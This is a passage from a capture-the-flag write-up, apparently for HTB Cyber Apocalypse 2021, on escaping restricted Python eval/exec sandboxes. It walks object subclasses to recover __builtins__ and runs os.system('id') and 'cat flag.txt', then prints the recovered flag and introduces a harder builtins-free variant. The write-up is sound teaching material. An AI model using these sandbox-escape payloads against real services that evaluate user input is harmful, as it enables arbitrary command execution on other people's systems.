 Since we have builtin functions access, we can easily get code execution:

```python
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('id')
```

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424074846.png#center)

the flag.txt was present in current directory:

```python
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt')
```

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424075039.png#center)

```
CHTB{4li3n5_us3_pyth0n2.X?!}
```


&nbsp;
## # Build yourself in

This challenge is also similar to previous challenge where when we give input it gets evaluated by "exec", but this time the interpreter is Python3 and there is no "\__builtins__". The code gets executed with below command:

```python
exec(text, {'__builtins__': None, 'print':print})
```

We can still print stuffs out because print function is supplied to exec.

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424075238.png#center)
